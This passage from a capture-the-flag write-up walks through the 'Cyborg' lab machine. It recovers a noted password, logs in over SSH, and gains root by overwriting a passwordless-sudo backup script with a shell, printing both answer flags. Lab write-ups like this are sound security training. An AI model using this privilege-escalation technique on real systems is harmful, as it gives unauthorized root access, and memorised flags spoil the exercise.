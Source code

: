 ~~~
kali@kali:/data/Cyborg/files/home/field/dev$ cat home/alex/Desktop/secret.txt 
shoutout to all the people who have gotten to this stage whoop whoop!"
kali@kali:/data/Cyborg/files/home/field/dev$ cat home/alex/Documents/note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
~~~

Now connect with SSH and get the flag:

~~~
kali@kali:/data/Cyborg/files$ ssh alex@10.10.61.219
alex@ubuntu:~$ cat user.txt 
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
~~~

# What is the root.txt flag?

Checking `alex`'s privileges reveals that we can run a `backup.sh` script as `root` with `sudo` without password:

~~~
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
~~~

we are owner of the script but it lacks from modification privileges:

~~~
alex@ubuntu:~$ ls -l /etc/mp3backups/backup.sh
-r-xr-xr-- 1 alex alex 1083 Dec 30 01:48 /etc/mp3backups/backup.sh
~~~

Let's make the script editable and replace the content of the script to spawn a shell. As the script will be run with root privileges, we will have a root access.

~~~
alex@ubuntu:/etc/mp3backups$ chmod +w backup.sh 
alex@ubuntu:/etc/mp3backups$ cat > backup.sh << EOF
> #!/bin/bash
> /bin/bash
> EOF
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh
root@ubuntu:/etc/mp3backups# cd /root
root@ubuntu:/root# cat root.txt 
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
~~~

Root flag: `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`
